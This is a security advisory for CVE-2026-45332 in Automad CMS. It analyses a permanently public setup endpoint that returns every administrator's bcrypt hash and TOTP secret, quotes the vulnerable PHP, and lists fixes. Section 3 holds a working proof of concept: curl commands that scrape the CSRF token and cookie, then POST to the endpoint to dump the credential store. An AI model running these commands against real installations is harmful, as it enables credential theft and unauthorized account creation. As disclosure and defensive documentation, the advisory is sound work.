


# Broken Access Control in Automad CMS: Unauthenticated Credential Dump

**CVE-2026-45332** · [GHSA-xm76-r88j-vm3g](https://github.com/advisories/GHSA-xm76-r88j-vm3g)

| Field | Value |
|---|---|
| Product | Automad CMS (`automad/automad`) |
| Affected versions | `>= 2.0.0-alpha.1`, `<= 2.0.0-beta.27` |
| Patched version | `2.0.0-beta.28` |
| Severity | High |
| CVSS 3.1 | 7.5 (`AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N`) |
| CWE | CWE-200, CWE-306 |
| Auth required | No |
| Affected component | `/_api/user-collection/create-first-user` |
| Researcher | Lorenzo Camilli |

---

## 1. Summary

A Broken Access Control vulnerability allows any unauthenticated attacker to retrieve the bcrypt password hash of every administrator account with a single POST request. The `/_api/user-collection/create-first-user` setup endpoint is permanently public, with no guard that closes it once initial configuration is complete, and it returns the full serialized user database in the JSON response body.

As a side effect, the dummy account submitted in the request is also written to the on-disk accounts file and persists across restarts.

---

## 2. Root cause

### 2.1 Unconditional public route registration

In `automad/src/server/Routes.php`, the route is placed inside the `$publicAPIRoutes` array with no conditional guard:

```php
private static array $publicAPIRoutes = array(
    'public/.*',
    'session/login',
    'session/validate',
    'app/bootstrap',
    'user/account-recovery',
    'user-collection/create-first-user'   // always public, even post-setup
);

$Router->register(
    "$apiBase/(" . join('|', self::$publicAPIRoutes) . ')',
    function () {
        return RequestHandler::getResponse();
    },
    AM_PAGE_DASHBOARD   // the string '/dashboard', always truthy
);
```

`AM_PAGE_DASHBOARD` is a constant set to the string `'/dashboard'`, which is always truthy in PHP. The route is therefore registered on every live installation. There is no `hasAccounts()` check that would restrict the endpoint once at least one user account exists.

### 2.2 Controller loads and serializes every user

In `automad/src/server/Controllers/API/UserCollectionController.php`:

```php
public static function createFirstUser(): Response {
    $Response = new Response();
    if (empty($_POST)) {
        return $Response;
    }

    $UserCollection = new UserCollection();          // loads ALL existing users from disk
    $Messenger = new Messenger();

    if (!$UserCollection->createUser(                // adds attacker's user in memory
        Request::post('username'),
        Request::post('password1'),
        Request::post('password2'),
        Request::post('email'),
        $Messenger
    )) {
        return $Response->setError($Messenger->getError());
    }

    $php = $UserCollection->generatePHP();           // serializes EVERY user including hashes

    return $Response->setData(
        array(
            'php'       => $php,                     // full credential store returned in response
            'filename'  => basename(UserCollection::FILE_ACCOUNTS),
            'configDir' => dirname(UserCollection::FILE_ACCOUNTS)  // absolute path leaked
        )
    );
}
```

Instantiating `new UserCollection()` reads and deserializes the on-disk `accounts.php` containing all registered users. The attacker's dummy user is appended in memory, and `generatePHP()` serializes the complete merged array (every real user's bcrypt hash and TOTP secret) which is returned directly in the response.

### 2.3 `__serialize()` exposes private credential fields

In `automad/src/server/Auth/User.php`:

```php
public function __serialize(): array {
    return array(
        'name'         => $this->name,
        'email'        => $this->email,
        'passwordHash' => $this->passwordHash,   // bcrypt hash, present in response
        'totpSecret'   => $this->totpSecret      // TOTP secret, present in response
    );
}
```

---

## 3. Proof of concept

**Prerequisites:** a running Automad instance on any affected version that has completed initial setup.

### Step 1: Extract the CSRF token from the public login page

The login page at `/dashboard/login` is reachable without authentication. The CSRF token is embedded in the HTML as a `<meta name="csrf">` tag, so viewing the source is sufficient. The same request also sets the `Automad-*` session cookie, which is captured into a cookie jar for reuse in Step 3.

```bash
JAR=$(mktemp)
CSRF=$(curl -sc "$JAR" http://localhost:80/dashboard/login \
  | grep -oP '(?<=<meta name="csrf" content=")[^"]+')
echo "CSRF: $CSRF"
```



### Step 2: Confirm the captured session cookie

The `-c "$JAR"` flag above stored the `Automad-*` session cookie set by the login page. It must accompany the CSRF token in the next step (sent with `-b "$JAR"`).

```bash
cat "$JAR"
```

### Step 3: Dump the credential store

```bash
curl -s -b "$JAR" -X POST 'http://localhost:80/_api/user-collection/create-first-user' \
  --data-urlencode "__csrf__=$CSRF" \
  --data-urlencode 'username=dummy' \
  --data-urlencode 'password1=AnyPassword1!' \
  --data-urlencode 'password2=AnyPassword1!' \
  --data-urlencode 'email=dummy@example.com' \
  | jq .
```

**Response (sensitive values redacted):**

```json
{
  "code": 200,
  "data": {
    "php": "<?php\ndefined('AUTOMAD') or die();\nreturn 'a:2:{i:0;O:*:\"~\":4:{s:4:\"name\";s:N:\"<real-admin-username>\";s:5:\"email\";s:0:\"\";s:12:\"passwordHash\";s:60:\"$2y$10$<REDACTED_ADMIN_HASH>\";s:10:\"totpSecret\";s:0:\"\";}i:1;O:*:\"~\":4:{s:4:\"name\";s:5:\"dummy\";...}}';",
    "filename": "accounts.php",
    "configDir": "/path/to/config"
  }
}
```



The response contains the bcrypt hash and TOTP secret of every registered administrator, and the absolute filesystem path to the config directory.

---

## 4. Impact

Any Automad installation reachable over HTTP is at risk. No prior account, credentials, or special network position are required.

- **Credential hash exposure enabling offline attacks:** bcrypt hashes for every administrator are returned in a single unauthenticated response. The salt is embedded in the hash and visible. Administrators using weak or common passwords are at direct risk of plaintext recovery.
- **TOTP secret exposure:** the `totpSecret` field is included. If non-empty, an attacker who recovers the plaintext password can bypass two-factor authentication entirely.
- **Persistent account creation:** the dummy account in the request is written to `accounts.php` on disk and persists across restarts.
- **Information disclosure:** the absolute server path to the config directory is leaked in every response.

---

## 5. Remediation

1. **Move the route behind authentication.** Remove `user-collection/create-first-user` from `$publicAPIRoutes` and re-register it only within the setup wizard, which itself must be reachable only when `accounts.php` does not yet exist.
2. **Never return serialized credentials.** `createFirstUser()` should persist the first account server-side and return only success or failure, never credential material.
3. **Suppress path disclosure.** Remove `configDir` from public-facing responses.

Fixed in **Automad 2.0.0-beta.28**.

---

## 6. Timeline

| Date | Event |
|---|---|
| 2026-04-28 | Vulnerability reported to the maintainer |
| 2026-05-09 | GHSA-xm76-r88j-vm3g published |
| 2026-05-29 | CVE-2026-45332 assigned and published |

---

## 7. References

- [CVE.org: CVE-2026-45332](https://www.cve.org/CVERecord?id=CVE-2026-45332)
- [GitHub Advisory: GHSA-xm76-r88j-vm3g](https://github.com/advisories/GHSA-xm76-r88j-vm3g)
- [Automad CMS](https://github.com/marcantondahmen/automad)
- Video PoC: https://youtu.be/GBty82NlPPc
